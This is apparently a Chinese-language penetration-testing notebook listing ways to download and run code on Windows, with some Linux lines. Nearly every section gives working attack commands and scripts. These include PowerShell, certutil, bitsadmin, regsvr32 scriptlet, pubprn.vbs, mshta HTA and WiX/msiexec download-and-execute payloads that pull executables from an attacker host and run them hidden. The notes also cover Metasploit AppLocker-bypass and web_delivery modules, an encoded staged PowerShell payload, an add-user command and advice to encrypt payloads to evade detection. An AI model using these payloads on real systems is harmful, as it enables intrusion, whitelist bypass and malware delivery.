## Windows

### powershell


	powershell(new-object System.Net.WebClient).DownloadFile('http://192.168.1.110:8080/aa.txt','c:\Users\Administrator\Desktop\a.exe');start-process'c:\Users\Administrator\Desktop\a.exe'



### certutil

	certutil -urlcache -split -f http://192.168.1.110:8080/aa.txt c:\Users\Administrator\Desktop\a.exe&&c:\Users\Administrator\Desktop\a.exe



### bitsadmin

**bitsadmin 的下载速度很慢**

	bitsadmin /transfer n http://192.168.1.110:8080/aa.txt c:\Users\Administrator\Desktop\a.exe && c:\Users\Administrator\Desktop\a.exe

下载失败，提示 **bitsadmin要求服务器支持Range标头**。

	bitsadmin /transfer n http://img5.cache.netease.com/photo/0001/2013-03-28/8R1BK3QO3R710001.jpg c:\Users\Administrator\Desktop\a.exe&&c:\Users\Administrator\Desktop\a.exe



### wmic


### regsvr32

Regsvr32命令是Windows中控件文件(如扩展名为DLL、OCX、CPL的文件)的注册和反注册工具。



/u - 解除服务器注册

/s - 无声；不显示消息框

/i - 调用 DllInstall，给其传递一个可选 [cmdline]；跟 /u 一起使用时，卸载 dll

/n - 不要调用 DllRegisterServer；这个选项必须跟 /i 一起使用

	regsvr32 /u /s /i:http://192.168.1.110:8080/3 scrobj.dll

后缀名任意。

文件3内容为：

	<?XML version="1.0"?>
	<scriptlet>
	<registration
	    description="Test"
	    progid="Test"
	    version="1.00"
	    classid="{10001111-0000-0000-0000-0000FEEDACDC}"
		>
		<script language="JScript">
			<![CDATA[
				new ActiveXObject("WScript.Shell").Run("powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.110:8080/evil.exe','c:\\Users\\Administrator\\Desktop\\a.exe');start-process 'c:\\Users\\Administrator\\Desktop\\a.exe'",0,true);
			]]>
	</script>
	</registration>
	<public>
	    <method name="Exec"></method>
	</public>
	<script language="JScript">
	<![CDATA[
		function Exec()
		{
			var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
		}
	]]>
	</script>
	</scriptlet>

原理：

regsve32->JScript->powershell->download&exec


有的报错:

	程序“regsvr32.exe”无法运行: 拒绝访问。所在位置 行:1 字符: 1
	+ regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/test/ma ...
	+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~。
	所在位置 行:1 字符: 1
	+ regsvr32 /u /s /i:https://raw.githubusercontent.com/3gstudent/test/ma ...
	+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
	    + FullyQualifiedErrorId : NativeCommandFailed

有的没反应,可能是代理原因，需要保证能访问文件服务器。下载速度较慢。


也可以不调用powershell：

据说powershell是默认会调用浏览器代理，vbs不会

regsve32->VBScript(file download via http)->download&exec


	Const adTypeBinary = 1
	Const adSaveCreateOverWrite = 2
	Dim http,ado
	Set http = CreateObject("Msxml2.XMLHTTP")
	http.open "GET","http://192.168.1.110:8080/aa.exe",False
	http.send
	Set ado = createobject("Adodb.Stream")
	ado.Type = adTypeBinary
	ado.Open
	ado.Write http.responseBody
	ado.SaveToFile "c:\Users\Administrator\Desktop\a.exe"
	ado.Close

上面的脚本不支持https下载，可以换成 ```Msxml2.ServerXMLHTTP.6.0```，也可以 用 ```WinHttp.WinHttpRequest.5.1``` 实现，

	<?XML version="1.0"?>
	<scriptlet>
	<registration
	    description="Test"
	    progid="Test"
	    version="1.00"
	    classid="{10001111-0000-0000-0000-0000FEEDACDC}"
		>
		<script language="VBScript">
			<![CDATA[
				Const adTypeBinary = 1
				Const adSaveCreateOverWrite = 2
				Dim http,ado
				Set http = CreateObject("Msxml2.ServerXMLHTTP.6.0")
				http.SetOption 2, 13056
				http.open "GET","http://192.168.1.110:8080/aa.exe",False
				http.send
				Set ado = createobject("Adodb.Stream")
				ado.Type = adTypeBinary
				ado.Open
				ado.Write http.responseBody
				ado.SaveToFile "c:\Users\Administrator\Desktop\a.exe"
				ado.Close
				CreateObject("WScript.Shell").Run "c:\Users\Administrator\Desktop\a.exe",0,true 
			]]>
	</script>
	</registration>
	</scriptlet>

如果 exe无法执行，可能会报 未知错误，但是不影响程序下载。如果本地已经有 a.exe，会报写入错误。

**实际使用：在流量中可以检测到攻击载荷，需要对payload加密。**


利用 Regsvr32 和msf 添加用户：

	use auxiliary/server/regsvr32_command_delivery_server
	
	set CMD net user Micropoor Micropoor /add
	
	exploit

这个模块的端口默认8080，在kali尝试不好修改。



exploit

靶机访问，添加用户失败。

使用 ```regsvr32_applocker_bypass_server.rb```


	cp regsvr32_applocker_bypass_server.rb /usr/share/metasploit-framework/modules/exploits/windows/misc

	reload_all

查找msf web传递模块：

	search web_delivery



Web Delivery Script是一个多功能模块，可在托管有效负载的攻击机器上创建服务器。当受害者连接到攻击服务器时，负载将在受害者机器上执行。由于服务器和有效载荷都在攻击机器上，所以攻击继续进行而没有写入磁盘。

	use exploit/windows/misc/regsvr32_applocker_bypass_server

	set lhost 0.0.0.0



本质类似

	powershell.exe -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c &([scriptblock]::create((New-Object IO.StreamReader(New-Object IO.Compression.GzipStream((New-Object IO.MemoryStream(,[Convert]::FromBase64String(''H4sIAM0CBF8CA7VW+2/iOBD+uZX6P0QrpCTalEfpPlqp0jk8w5IWGp5l0clNnGAwCXWc8tjb//3GkLRdtXu3e9JFIBx7ZjzzfZ/H+EnoChqFykPtov+gfDs5PupgjpeKlotn7VtDyXntZpfpR0ewkgv8hnKlaBO0WlWjJabh9PKyknBOQnF4zzeIQHFMlveMkljTlb+U4YxwcnpzPyeuUL4puT/zDRbdY5aabSvYnRHlFIWeXGtHLpb55J0Vo0JTv35V9clpaZqvPSSYxZrqbGNBlnmPMVVXvutyw952RTTVpi6P4sgX+SENy2f5fhhjn1xDtEdiEzGLvFjVoQj4cCISHiqyHOl/WNVUGHZ45CLP4ySOVUOZyMiT6fQPbZJue5uEgi5J3goF4dHKIfyRuiTON3HoMXJL/Cl4OYLTMJjqOpg9Rgui5cKEMUP5nTDaNVlnoP2qk/bSCaw6gusGEPm6TDvyEkYOjuobee651+F54h+Q+35yfHLsZ3qh5euXaoHR0WQ/JpCd1oliuje7UoqGYsNGWER8C6+5Hk+IPn3CVsnxiz+Nn7uXMluwxF2YmAwi6k3BISUz58Wfz6hc+Lkqq8SnIaluQ7ykbiY87S2Mic/IvsB8ZnYNOWlqukC8KmEkwELCJql+5VZbUvHkayaUeYQjF3iKISugUP8xmQMTmmqFNlkCQod30F7OB7mTzDqV+DbbXb6DkVphOI4NpZPAeXMNxSGYEc9QUBjTdAklItoP1ed07YQJ6uJYZOGm+hOQ6YaVKIwFT1xgDYrvOSviUswkFobSpB4xtw4Nso3VN5GoYMbgHECkR2ACZiQCjpBa4JCj5F3PO0RYyxUjSzDZH/w6wwEc81Tse+3ggHjqqwwzOR+0K8HIUHiRHzDssEgYyoByAQ1EAou7/2nzF33jkEaFk5QJLTsdE3MrpKhzgrYXe02msOxB4AIAqPNoaeKYfDw/tAntXeGGVhA8YytktmsuaAmtacmy4dunZSuqfvK+tObNAq9uZj6yYstudqrdZvP8seUMzoVTs8SXjiXs2mg+d1Dztj8WdxZq9mhxMT7frVp057SRN94UPu7M3bpobnbzwPPHVd8PPvnObelDnbaHla5ZPMPtai1pD821WTyPa3Td7NJ+d9Gqi/vxgOG+XwhGpQtMN20+H5Qie2ch1JiV3V3LHzRmtrcdNymZF4pt2kVdhL64t/1+I1gFjRgVLgYPlWWEMLJQbbBtfWBmt183Ub9mdvFN1Cm/rxZKd95DrX43wq0l8xrNQmk8Qh7aFXrBrPSpMV8L3BrKOKgR1QbMi5AIrVGhMKC7u4duI0A1wHAg96jTRf/9COJd93BgDvulZ1vk2qtNOErW66urd5JVoDVHe+UXVP2szdqYxzPMgEJooNnBqUe8nnbETkSlh6YdbtIF4SFhcA/BTZWpDzEWubIly+YJt8GhR8srow/D8tmbI115MtSfW3U2dXl5B1mCoPeKy7dJGIiZUdyUi0VovMXNeRGq/PXSKtFqqx1iGbJzS2yegrN9cF0KPbf7vPqfMUuP1wx+vH/B7HnuH1Z/Cceisa/41eyPE78F6e9XPsRUgKkD3YGRw/30JgCpPl7c38AKcO+nj/z3dZOI02u41U+O/wbmyVoP6gkAAA==''))),[IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"



	regsvr32 /s /n /u /i:http://192.168.255.147:8080/rXgyHS7BWeGv.sct scrobj.dll


仅在靶机2003 成功一次

[regsvr32 命令注入攻击复现](https://blog.csdn.net/Qu_iet/article/details/79145674)

### pubprn.vbs

利用pubprn.vbs能够执行远程服务器上的sct文件(sct文件格式有区别)

**regsve32->VBScript->download&exec**

在win7和win10测试都有这个文件pubprn.vbs，路径在```C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs```。

	cscript /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:http://192.168.1.110:8080/6

文件6的内容：

	<?XML version="1.0"?>
	<scriptlet>
	<registration
	    description="Test"
	    progid="Test"
	    version="1.00"
	    classid="{10001111-0000-0000-0000-0000FEEDACDC}"
		>
	</registration>
		<script language="VBScript">
			<![CDATA[
				Const adTypeBinary = 1
				Const adSaveCreateOverWrite = 2
				Dim http,ado
				Set http = CreateObject("Msxml2.ServerXMLHTTP.6.0")
				http.SetOption 2, 13056
				http.open "GET","http://192.168.1.110:8080/aa.exe",False
				http.send
				Set ado = createobject("Adodb.Stream")
				ado.Type = adTypeBinary
				ado.Open
				ado.Write http.responseBody
				ado.SaveToFile "c:\Users\Administrator\Desktop\a.exe"
				ado.Close
				CreateObject("WScript.Shell").Run "c:\Users\Administrator\Desktop\a.exe",0,true 
			]]>
	</script>
	</scriptlet>


### msiexec

系统进程，是Windows Installer的一部分

用于安装Windows Installer安装包（MSI）

一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大

用powershell分别执行实现下载执行的代码并作base64编码：

	$fileContent = "(new-object System.Net.WebClient).DownloadFile('http://192.168.1.110:8000/6','c:\Users\Administrator\Desktop\a.exe');start-process 'c:\Users\Administrator\Desktop\a.exe'"
	$bytes  = [System.Text.Encoding]::Unicode.GetBytes($fileContent);
	$encoded = [System.Convert]::ToBase64String($bytes); 
	$encoded



完整powershell命令为：

	powershell -WindowStyle Hidden -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8AMQA5ADIALgAxADYAOAAuADEALgAxADEAMAA6ADgAMAAwADAALwA2ACcALAAnAGMAOgBcAFUAcwBlAHIAcwBcAEEAZABtAGkAbgBpAHMAdAByAGEAdABvAHIAXABEAGUAcwBrAHQAbwBwAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAFUAcwBlAHIAcwBcAEEAZABtAGkAbgBpAHMAdAByAGEAdABvAHIAXABEAGUAcwBrAHQAbwBwAFwAYQAuAGUAeABlACcA

完整Wix文件为：

	<?xml version="1.0"?>
	<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
	  <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product 
	Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
	    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
	    <Media Id="1" />
	
	    <Directory Id="TARGETDIR" Name="SourceDir">
	      <Directory Id="ProgramFilesFolder">
	        <Directory Id="INSTALLLOCATION" Name="Example">
	          <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">     
	          </Component>
	        </Directory>
	      </Directory>
	    </Directory>
	
	    <Feature Id="DefaultFeature" Level="1">
	      <ComponentRef Id="ApplicationFiles"/>
	    </Feature>
	
	    <Property Id="cmdline">powershell -WindowStyle Hidden -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8AMQA5ADIALgAxADYAOAAuADEALgAxADEAMAA6ADgAMAAwADAALwA2ACcALAAnAGMAOgBcAFUAcwBlAHIAcwBcAEEAZABtAGkAbgBpAHMAdAByAGEAdABvAHIAXABEAGUAcwBrAHQAbwBwAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAFUAcwBlAHIAcwBcAEEAZABtAGkAbgBpAHMAdAByAGEAdABvAHIAXABEAGUAcwBrAHQAbwBwAFwAYQAuAGUAeABlACcA
	    </Property>
	
	    <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR" 
	ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>
	
	    <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
	      invalid vbs to fail install
	    </CustomAction>

	    <InstallExecuteSequence>
	      <Custom Action="SystemShell" After="InstallInitialize"></Custom>
	      <Custom Action="FailInstall" Before="InstallFiles"></Custom>
	    </InstallExecuteSequence>
	
	  </Product>
	</Wix>


wix安装文件，下载地址：http://wix.sourceforge.net/,安装



Wix的全称是（Windows Installer XML），简而言之，就是用XML来配置和定制个性化的安装方案。


首先，我们在 http://wixtoolset.org/releases 中下载WiX Toolset安装文件,安装完成后，VS中就会多出一种项目类型“Wix Toolset”，并且选中后我们选择“Bootstrapper Project”，即可创建出新项目，我们在这个项目中进行我们的bootstrapper开发。



编译上面的xml失败。。。。。。。。


### mshta

mshta支持http和https

mshta在执行hta脚本时，类似于浏览器，会根据链接返回头进行对应的解析操作，所以这里只有当返回头为html时才会运行。否则会被当做文本解析。

例如返回的格式为text/plain，会被当普通文本进行解析，无法执行。



运行计算器：

	mshta http://192.168.1.84:8080/calc.html

在浏览器打开 calc.html 会被当成html执行， calc.hta 则 返回头为 ```Content-type: application/hta``` 被下载。

经过测试，后缀名 html 和 hta 都可以弹出计算器。

	<HTML> 
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
	<HEAD> 
	<script language="VBScript">
	Window.ReSizeTo 0, 0
	Window.moveTo -2000,-2000
	Set objShell = CreateObject("Wscript.Shell")
	objShell.Run "calc.exe"
	self.close
	</script>
	<body>
	demo
	</body>
	</HEAD> 
	</HTML> 


	


 
下载执行：  ```mshta http://192.168.1.84:8080/downloadexec.hta```

	<HTML> 
	<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
	<HEAD> 
	<script language="VBScript">
	Window.ReSizeTo 0, 0
	Window.moveTo -2000,-2000
	
	Const adTypeBinary = 1
	Const adSaveCreateOverWrite = 2
	Dim http,ado
	Set http = CreateObject("Msxml2.ServerXMLHTTP.6.0")
	http.SetOption 2, 13056
	http.open "GET","http://192.168.1.110:8080/aa.exe",False
	http.send
	Set ado = createobject("Adodb.Stream")
	ado.Type = adTypeBinary
	ado.Open
	ado.Write http.responseBody
	ado.SaveToFile "c:\Users\Administrator\Desktop\a.exe"
	ado.Close
	CreateObject("WScript.Shell").Run "c:\Users\Administrator\Desktop\a.exe",0,true 
	self.close
	</script>
	<body>
	demo
	</body>
	</HEAD> 
	</HTML>




默认浏览器不支持直接执行脚本。需要在 IE浏览器-Internet选项-安全，选择可信站点，参考 [渗透技巧-从github下载文件的多种方法](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8Egithub%E4%B8%8B%E8%BD%BD%E6%96%87%E4%BB%B6%E7%9A%84%E5%A4%9A%E7%A7%8D%E6%96%B9%E6%B3%95/)

IE浏览器默认会拦截vbs脚本实现的下载功能,如果换成powershell实现，不会被浏览器拦截。


	$fileContent = "(new-object System.Net.WebClient).DownloadFile('http://ip:port/downloadexec2.hta','c:\Users\Administrator\Desktop\a.exe');start-process 'c:\Users\Administrator\Desktop\a.exe'"
	$bytes  = [System.Text.Encoding]::Unicode.GetBytes($fileContent);
	$encoded = [System.Convert]::ToBase64String($bytes); 
	$encoded

output:

	KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8ALwAxADEANAAuADEAMQA2AC4AMgA1ADMALgAxADQAOAA6ADEAMgAzADQANQAvAGQAbwB3AG4AbABvAGEAZABlAHgAZQBjADIALgBoAHQAYQAnACwAJwBjADoAXABVAHMAZQByAHMAXABBAGQAbQBpAG4AaQBzAHQAcgBhAHQAbwByAFwARABlAHMAawB0AG8AcABcAGEALgBlAHgAZQAnACkAOwBzAHQAYQByAHQALQBwAHIAbwBjAGUAcwBzACAAJwBjADoAXABVAHMAZQByAHMAXABBAGQAbQBpAG4AaQBzAHQAcgBhAHQAbwByAFwARABlAHMAawB0AG8AcABcAGEALgBlAHgAZQAnAA==

测试方法：

cmd执行：

	powershell -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8ALwAxADEANAAuADEAMQA2AC4AMgA1ADMALgAxADQAOAA6ADEAMgAzADQANQAvAGQAbwB3AG4AbABvAGEAZABlAHgAZQBjADIALgBoAHQAYQAnACwAJwBjADoAXABVAHMAZQByAHMAXABBAGQAbQBpAG4AaQBzAHQAcgBhAHQAbwByAFwARABlAHMAawB0AG8AcABcAGEALgBlAHgAZQAnACkAOwBzAHQAYQByAHQALQBwAHIAbwBjAGUAcwBzACAAJwBjADoAXABVAHMAZQByAHMAXABBAGQAbQBpAG4AaQBzAHQAcgBhAHQAbwByAFwARABlAHMAawB0AG8AcABcAGEALgBlAHgAZQAnAA==

成功下载并执行。

	mshta http://192.168.1.84:8080/hello.guess

**经测试，这里的后缀名任意写，只要powershell里的后缀名保持 ```.hta和.html``` 即可**,

**因此当然也可以用短网址，但在流量层不免杀，本质仍然是调用powershell下载远端文件并执行**。


```powershell -WindowStyle Hidden -enc``` 其中的 ```-WindowStyle Hidden```表示后台执行。


## 参考资料


https://micro8.gitbook.io/micro8/contents-1/71-80/79-ji-yu-bai-ming-dan-regsvr32-zhi-hang-payload-di-jiu-ji


linux：


awk:


	awk 'BEGIN {
	  RS = ORS = "\r\n"
	  HTTPCon = "/inet/tcp/0/192.168.1.110/8080"
	  print "GET /b.txt HTTP/1.1\r\nConnection: close\r\n"    |& HTTPCon
	  while (HTTPCon |& getline > 0)
	      print $0
	  close(HTTPCon)}'




	awk 'BEGIN {
	  RS = ORS = "\r\n"
	  HTTPCon = "/inet/tcp/0/192.168.1.110/8080"
	  print "GET /b.txt HTTP/1.1\r\nConnection: close\r\n"    |& HTTPCon
	  while (HTTPCon |& getline > 0)
	      print $0
	  close(HTTPCon)}' > a.txt


## 新建 HTTP PUT Server

	python put.py 0.0.0.0:1337

上传文件 test.txt 到服务器：

	curl --upload-file test.txt http://172.16.1.104:1337

